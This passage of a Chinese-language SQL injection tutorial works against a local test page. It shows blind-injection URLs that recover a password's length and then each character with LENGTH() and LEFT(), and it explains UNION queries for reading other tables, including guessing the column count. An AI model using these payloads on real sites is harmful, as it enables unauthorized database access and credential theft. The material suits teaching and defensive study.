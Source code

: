 ```

但在实际攻击中，肯定不知道密码，假设知道数据库的各个字段，就可以开始探测密码了，首先是获取密码长度:
```
http://localhost/injection/user.php?username=aaron' and LENGTH(password)='6
```

在MySQL中，要使用LENGTH(),只要没有构造错误，就是SQL语句能够正常执行，那返回结果无外乎两种，不是返回用户ID，就是返回"No record",当用户名为aaron并且密码长度为6的时候为真，就会返回相关记录，再用LEFT(),RIGHT(),MID()函数暴力破解密码:

```
http://localhost/injection/usr.php?username=aaron' and password=LEFT(password,1)='m

http://localhost/injection/user.php?username=aaron' and password=LEFT(password,2)='my

http://localhost/injection/user.php?username=aaron' and  password=LEFT(password,3)='myp

http://localhost/injection/user.php?username=aaron' and password=LEFT(password,4)='mypa

http://localhost/injection/user.php?username=aaron' and password=LEFT(password,5)='mypas

http://localhost/injection/user.php?username=aaron' and password=LEFT(password,6)='mypass

```


2.跨表查询

一定要用UNION连接两条SQL语句，最难掌握的就是字段的数量，在SELECT中欧的select_expression(select_expression表示你希望检索的列[字段])部分列出的列必须具有同样的类型。第一个SELECT查询中使用的列名将作为结果集的列名返回。简单的说，也就是UNION后面查选的字段数量，字段类型都应该与前面的SELECT一样，而且，如果前面的SELECT为真，就同时返回两个SELECT的结果，当前面的SELECT为假，就会返回第二个SELECT所得的结果，某些情况会替换掉在第一个SELECT原来应该显示的字段。
如果查询的两个数据表的字段相同，类型也相同，就可以这样提交:
```
SELECT * FROM aritcle WHERE articleid='$id' UNION SELECT * FROM
```

如果字段数量，字段类型任意一个不相同，就只能搞清楚数据类型和字段数量，这样提交：
```
SELECT * FROM article WHERE articleid='$id' UNION SELECT 1,1,1,1,1,1 FROM
```

否则 就会报错：
```
THE used SELECT statements hava a different number of columns
```

如果不知道数据类型和字段数量，可以用1慢慢试，因为1属于int\str\var类型，所以只要改变数量，一定可以猜到。

```
CREATE TABLE article ( 
articleid int(11) NOT NULL auto_increment, 
title varchar(100) NOT NULL default '', 
content text NOT NULL, 
PRIMARY KEY (articleid) 
) TYPE=InnoDB;
#
# 导出表中的数据 article 
#
INSERT INTO article VALUES (1, 'Stupid education', 'Fire the Minister'); 
INSERT INTO article VALUES (2, 'Smart student', 'I hate you');
```

这个表的 字段类型是int,varchar,text，如果用UNION联合查询的时候，后面的查询的表的结构和这个一样，就可以用SELECT * ，如果有任何一个不一样，就只能用"SELECT 1,1,1,1,1"。


```php
```